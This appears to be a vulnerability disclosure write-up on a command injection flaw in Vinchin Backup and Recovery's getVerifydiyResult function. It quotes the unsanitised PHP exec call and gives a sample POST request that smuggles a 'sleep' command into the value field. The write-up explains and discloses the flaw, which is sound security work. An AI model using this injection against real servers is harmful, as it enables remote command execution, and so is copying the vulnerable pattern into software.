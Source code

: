 ### Deep Dive into the `getVerifydiyResult` Function Vulnerability in Vinchin Backup and Recovery

![](../src/getVerifydiyResult.png)

#### Vulnerability Overview:

In Vinchin Backup and Recovery's `ManoeuvreHandler.class.php` file, the `getVerifydiyResult` function contains a critical command injection vulnerability. This function is intended to validate either IP addresses or web resources, depending on the value of the `type` parameter.

#### Function Analysis:

**Function Prototype**:
```php
public function getVerifydiyResult($params)
```

1. **Parameter Handling**:
   The function processes an input array `$params`, focusing on the keys `type` and `value`:
   ```php
   $type = intval($params['type']);
   $value = $params['value'];
   ```

2. **Critical Logic with `type` Parameter**:
   The function uses a `switch` statement to determine the validation method:
   ```php
   switch ($type) {
       case $verifyType['IP']:  // where $verifyType['IP'] is typically 1
           $verifyResult = $this->verifyPing($value);
           break;
       case $verifyType['WEB']:
           $verifyResult = $this->verifyWeb($value);
           break;
   }
   ```
   
   When `type` equals 1 (`$verifyType['IP']`), the `verifyPing` method is invoked.

3. **Command Injection in `verifyPing`**:
   The `verifyPing` method includes a direct execution of the `ping` command using `$value`:
   ```php
   exec("ping -c 1 $value", $outcome, $status);
   ```
   
   Due to the lack of sanitization or validation of `$value`, a command injection vulnerability is introduced.

#### Exploitation:

An attacker can exploit this vulnerability by setting `type` to 1 and injecting malicious commands into the `value` parameter.

#### Exploit Example:

An attacker sends a POST request with a crafted payload:

```
POST /api/ HTTP/1.1
Host: [Vinchin Server IP]
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: [Session Cookie]

m=14&f=getVerifydiyResult&p={"type":"1","value":"127.0.0.1;sleep+5"}
```

In this payload, `sleep+5` is appended to the IP address, demonstrating a successful command injection by causing the server to pause for 5 seconds.

#### Conclusion:

The `getVerifydiyResult` function in Vinchin Backup and Recovery showcases a severe security risk, where unvalidated user input in the `value` parameter, combined with a specific `type` value, leads to command injection. This vulnerability could enable attackers to execute arbitrary commands on the system, potentially leading to full compromise.

Immediate remediation actions, such as implementing input validation and sanitization in the `getVerifydiyResult` function, are essential to mitigate this risk. Users should also apply any patches or updates provided by Vinchin.
